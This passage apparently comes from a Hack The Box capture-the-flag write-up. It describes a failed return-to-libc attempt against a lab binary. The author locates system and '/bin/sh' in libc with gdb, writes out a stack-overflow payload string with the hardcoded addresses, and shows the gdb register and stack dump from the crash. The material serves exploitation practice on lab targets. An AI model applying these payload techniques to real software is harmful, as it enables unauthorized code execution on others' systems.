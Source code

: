 

This assembly effectively takes the 0x1000 bytes in libc and makes it
read only, no execute or write. When I was first here, I didn't really
understand why this was being done.

### Ret2Libc Fail

While I've already shown I can get a shell by making the stack
executable and then jumping to my shellcode, my initial instinct was to
use a return to libc attack. I walked through a lot of detail as to how
this works in [Frolic](/htb-frolic.md#background). Because
I don't have ASLR to contend with, the addresses in libc are static. I
can find them in `gdb`:



    gdb-peda$ p system
    $1 = {<text variable, no debug info>} 0xb7e54da0 <__libc_system>

    gdb-peda$ searchmem "/bin/sh"
    Searching for '/bin/sh' in: None ranges
    Found 1 results, display max 1 items:
    libc : 0xb7f759ab ("/bin/sh")   



While you may have already figured out how this relates to the assembly
above, I didn't notice yet, and kept going. With this information, I
generated a stage three payoad:



    "A"*76 + "\xa0\x4d\xe5\xb7EXIT\xab\x59\xf7\xb7"



But when I ran the exploit, it just crashed. I went with the manual
method I used above to step through in gdb. When it crashed, the context
was:



    [----------------------------------registers-----------------------------------]
    EAX: 0x0 
    EBX: 0x41414141 ('AAAA')
    ECX: 0xb7fccbcc --> 0x21000 
    EDX: 0x0 
    ESI: 0xb7fcc000 --> 0x1b1db0 
    EDI: 0xb7fcc000 --> 0x1b1db0 
    EBP: 0x41414141 ('AAAA')
    ESP: 0xbffff610 ("JUNK\253Y\367\267", 'B' <repeats 12 times>, "\375!\003\001\375!\003\001<\016")
    EIP: 0xb7e54da0 --> 0x8b0cec83
    EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0xb7e54d97 <cancel_handler+231>:     pop    ebp
       0xb7e54d98 <cancel_handler+232>:     ret    
       0xb7e54d99:                          lea    esi,[esi+eiz*1+0x0]
    => 0xb7e54da0 <__libc_system>:          sub    esp,0xc
       0xb7e54da3 <__libc_system+3>:        mov    eax,DWORD PTR [esp+0x10]
       0xb7e54da7 <__libc_system+7>:        call   0xb7f39b0d <__x86.get_pc_thunk.dx>
       0xb7e54dac <__libc_system+12>:       add    edx,0x177254
       0xb7e54db2 <__libc_system+18>:       test   eax,eax
    [------------------------------------stack-------------------------------------]
    0000| 0xbffff610 ("JUNK\253Y\367\267", 'B' <repeats 12 times>, "\375!\003\001\375!\003\001<\016")
    0004| 0xbffff614 --> 0xb7f759ab ("/bin/sh")
    0008| 0xbffff618 ('B' <repeats 12 times>, "\375!\003\001\375!\003\001<\016")
    0012| 0xbffff61c ("BBBBBBBB\375!\003\001\375!\003\001<\016")
    0016| 0xbffff620 ("BBBB\375!\003\001\375!\003\001<\016")
    0020| 0xbffff624 --> 0x10321fd 
    0024| 0xbffff628 --> 0x10321fd 
    0028| 0xbffff62c --> 0x80000e3c (<main+197>:    mov    BYTE PTR [ebp-0x15],al)